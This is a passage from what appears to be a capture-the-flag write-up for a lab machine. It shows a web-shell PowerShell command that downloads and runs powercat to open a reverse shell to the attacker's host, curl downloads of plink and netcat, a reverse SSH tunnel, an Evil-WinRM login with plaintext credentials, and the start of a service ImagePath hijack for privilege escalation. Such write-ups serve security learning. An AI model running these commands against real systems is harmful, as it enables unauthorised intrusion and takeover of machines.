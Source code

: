 ```
HTTP Server: `python -m SimpleHTTPServer 80`
Netcat Listener: `nc -lvnp 7777`
Remote Download command ***WITH*** invoke:
`http://10.10.10.167/oops.php?cmd=powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.126:80/powercat.ps1');powercat -c 10.10.14.126 -p 7777 -e cmd"`

Once we do, we see our `HTTP Server` show activity then our `Netcat` listener activates:

{{< figure src="__GHOST_URL__/content/images/2020/01/image-18.png" >}}

We now have a shell and should look to start enumerating further. When we look at the network via `netstat` we see that `WinRM` is running locally (port 5985).

{{< figure src="__GHOST_URL__/content/images/2020/01/image-19.png" >}}

So how do we leverage this? Well, we can create a tunnel between this machine and ours using either `netcat.exe` or `plink.exe`. In this case we head over to `C:\Windows\System32\spool\drivers\color` and use `curl` with the `-o` option to download `plink.exe` hosted on our machine.

Command:
`curl http://10.10.14.126/plink.exe -o plink.exe`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-21.png" >}}

Now we need to [create a tunnel](https://www.google.com/search?client=firefox-b-1-d&q=plink+tunnel) with it. It should be noted that you need to have `SSH` services running and not blocked for this to work.

Command:
`.\plink.exe -l rootflag -pw rootflag -R 5985:127.0.0.1:5985 10.10.14.126`

{{< figure src="__GHOST_URL__/content/images/2020/01/control_reversetunnel.gif" >}}

Once our tunnel is connected, we can connect to our local Kali machine with `Evil WinRM` to make a connection to the target.

Command:
`Evil-winrm -i 127.0.0.1 -u Hector -p 'l33th4x0rhector'`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-22.png" >}}

Now that we are connected, we can get our `user.txt` file! We can now look to escalate. After trying numerous enumeration types, we finally see a hint when we get our registry ACL's.

Command:
`get-acl HKLM:\System\CurrentControlSet\services\* | fl * | findstr /i "Hector Users Path"`

The output shows the rights we have on services. The key service here being `wuauserv`. We are able to leverage this service to execute a `netcat` shell back to us. 
First we'll `curl` our `netcat` binary to `C:\windows\system32\spool\drivers\color` directory.

Comand:
`curl http://10.10.14.126/nc.exe -o nc.exe`

Now we need to look at our `ImagePath` registry key.

Command:
`get-itemproperty HKLM:\System\CurrentControlSet\services\wuauserv`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-23.png" >}}

We now need to modify this value to point to `netcat` so when it's called, it will do what we want.

```